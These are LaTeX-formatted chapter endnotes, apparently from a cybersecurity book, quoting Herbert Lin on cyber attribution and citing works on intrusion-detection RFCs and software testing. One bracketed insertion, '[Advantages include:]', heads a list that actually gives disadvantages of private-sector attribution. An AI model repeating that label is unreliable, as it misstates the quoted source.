Lin, Herbert, Ibidem., p. 106 "U.S. Government views of attribution have evolved over the past half-dozen years. ... In 2010, [William Lynn said,] ' ... the forensic work necessary to identify an attacker may take months, if identification is possible at all.' ... In 2012, [Leon Panetta said,] '... DOD has made significant investments in \gls{forensics} to address this problem of attribution and we're seeing returns on that investment.' ... In 2015, the DOD Cyber Strategy stated, ' ... On matters of intelligence, attribution and warning, DOD and the intelligence community have invested significantly in all source collection, analysis, and dissemination capabilities, all of which reduce the anonymity of the state and non-state actor activity in cyberspace. Intelligence and attribution capabilities help to unmask an actor's cyber persona, identify the \gls{attack}'s point of origin, and determine tactics, techniques and procedures."

Lin, Herbert, Ibidem., p. 106-107 "Also in 2015, ... James Clapper testified, '... most can no longer assume that their activities will remain undetected. Nor can they assume that if detected, they will be able to conceal their identities.' ... He testified in 2016, '... However improvements in offensive tradecraft, the use of proxies, and the creation of cover organizations will hinder timely, high-confidence attribution of responsibility for state-sponsored cyber operations.' \textsuperscript{55}"

Lin, Herbert, Ibidem., p. 107: "Regarding the value of private-sector attribution, the DOD Cyber Strategy of 2015 notes that private-sector parties ... 'can play a significant role in dissuading cyber actors from conducting attacks in the first place.'"

Lin, Herbert, Ibidem., p. 107: "In addition to the Mandiant APT1 report described above some other examples of private sector involvement in attribution include:\textsuperscript{57}... \begin{itemize} \item FireEye's report, 'APT28 - A window Into Russia's Cyber Espionage Operations' ... \textsuperscript{58}... \item Novetta's report, 'Operation SNM: Axiom \gls{threat} Actor Group Report' ... \textsuperscript{59}... \item CrowdStrike's report, 'CrowdStrike Intelligence Report: Putter Panda' ... \textsuperscript{60}..." \end{itemize}

Lin, Herbert, Ibidem., p. 108-109 "Private-sector involvement in attribution has advantages and disadvantages.\textsuperscript{61} ...[Advantages include:] \begin{itemize} \item Lack of independent quality control ... \item ... possible lack of true independence of the private-sector report. ... \item ... nations other than the United States often do not appreciate fully the separation between public and private sector ..." \end{itemize}

Lin, Herbert, Ibidem., p. 110: "... has presumed that the attribution task is to determine as best as possible the machine, human intruder, and/or ultimately responsible parties that are behind a given malicious cyber incident. ... whereas attribution to an ultimately responsible party strongly depends on the legal, policy, and political definition of 'ultimately responsible.'"

Interview, Marcus Ranum and Wendy Nather, Ibidem.: "Nather: (Laughs) I think we're on a trajectory for profound change. It used to be that everyone who worked in computing or who created anything was expected to be technical, and therefore we felt confident in making fun of them if they messed up -- we were all on the same playing field. But now, there are manufacturers that don't have any feel for the security side of things. It's not fair to look down our noses at them, and it's really becoming democratized in a way, but we do have to help them."

Shadish, William, Ibidem., p. 12.

Shadish, William, Ibidem., p. 14.

Stallings, William. Ibidem. p. 355 RFCs for Intrusion Detection Exchange Format: \begin{itemize} \item RFC 4766 - Intrusion Detection Message Exchange Requirements \item RFC 4765 - Intrusion Detection Message Exchange Format \item RFC 4767 - Intrusion Detection Exchange Protocol \end{itemize}

Stallings, William. Ibidem. p. 363 "Test involved in the neighborhood of 3 million words ..."

Sedlock, Alicia. {Sedlock} p. 27, "Unit testing, ... is at the lowest level of all testing types. Its purpose is to ensure the smallest bits of your code (called units) function independently as expected."

Sedlock, Alicia. {Sedlock} p. 28, "Acceptance tests go through your running application and ensure designated actions, user inputs, and user flows are completable and functioning."

Sedlock, Alicia. {Sedlock} p. 29, "... visual regression testing. This doesn't test your code, but rather compares the rendered result of your code -- your interface -- with the rendered version of your application in production, staging, or a pre-changed local environment. This is typically done by comparing screenshots taken within a headless browser (a browser that runs on the server). Image comparison tools then detect any differences between the two shots."

"Br@d", "Pineapple Pi - Creating an Automated Open Wi-Fi Traffic Capturing Tool for Under \$20," 2600 The Hacker Quarterly. Vol. 34, No. 2, Summer 2017. 2600 Enterprises Inc., New York.


%==============================================================================
%==============================================================================
%----------------------------------------------------------------------------------------

\markchapterendnotes
